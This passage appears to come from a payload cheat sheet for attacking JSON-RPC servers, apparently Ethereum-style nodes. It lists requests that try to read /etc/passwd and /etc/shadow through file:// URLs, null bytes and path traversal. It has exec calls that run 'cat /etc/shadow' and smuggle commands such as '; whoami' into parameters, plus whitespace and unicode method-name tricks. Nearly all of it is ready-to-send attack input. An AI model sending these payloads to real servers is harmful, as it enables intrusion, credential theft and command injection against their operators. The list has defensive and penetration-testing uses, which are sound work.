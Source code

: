 ```json
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": [["nested", ["data", ["a", ["b"]]]]], "id": 10}
```
**Linux Server Bugs (File Access/Injection)**
```json
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/passwd"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/shadow"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/hosts"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/hostname"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/resolv.conf"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/services"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/passwd%00"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/shadow%00"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/hosts%00"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/hostname%00"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/resolv.conf%00"], "id": 1}
{ "jsonrpc": "2.0", "method": "eth_getLogs", "params": ["file:///etc/services%00"],"id": 1}
{ "jsonrpc": "2.0", "method": "readFile", "params": ["../../../../../etc/passwd"], "id": 11}
```
- Command execution
```json
{ "jsonrpc": "2.0", "method": "exec", "params": ["ls -la"], "id": 1}
{ "jsonrpc": "2.0", "method": "exec", "params": ["cat /etc/passwd"], "id": 1}
{ "jsonrpc": "2.0", "method": "exec", "params": ["cat /etc/shadow"], "id": 1}
{ "jsonrpc": "2.0", "method": "exec", "params": ["cat /etc/hosts"], "id": 1}
{ "jsonrpc": "2.0", "method": "exec", "params": ["cat /etc/hostname"],"id": 1}
{ "jsonrpc": "2.0", "method": "exec", "params": ["cat /etc/resolv.conf"],"id": 1}
{ "jsonrpc": "2.0", "method": "exec", "params": ["cat /etc/services"],"id": 1}
{ "jsonrpc": "2.0", "method": "execute", "params": ["; cat /etc/shadow"], "id": 12}
{ "jsonrpc": "2.0", "method": "exec", "params": ["; cat /etc/shadow"], "id": 12}
```
**Whitespace Attacks**
```json
{ "jsonrpc": "2.0", "method": " ", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\t", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\n", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\r", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\f", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\v", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\b", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\t\n\r\f\v\b ", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\t\n\r\f\v\b \t\n\r\f\v\b ", "params": [], "id": 1}
{ "jsonrpc": "2.0", "method": "\t\n\r\f\v\b \t\n\r\f\v\b \t\n\r\f\v\b ", "params": [], "id": 1}
```
- Around method key
```json
{ "jsonrpc": "2.0", "method"     : "eth_blockNumber", "params": [], "id": 1}
```
- Inside method name
```json
{ "jsonrpc": "2.0", "method":        "eth_blockNumber", "params": [], "id": 13}
```
- Unicode whitespace
```json
{ "jsonrpc": "2.0", "method": "eth\u200B_BlockByNumber", "params": [], "id": 99}
{ "jsonrpc": "2.0", "method": "eth\u00A0Logs", "params": [], "id": 100}
```
> whitespace in params  
> useful if server process user input for storage/logs/sytems
```json
{ "jsonrpc": "2.0", "method": "customMethod", "params": ["; ls ~"], "id": 55}
{ "jsonrpc": "2.0", "method": "customMethod", "params": ["\t\n \r; whoami"], "id": 56}
```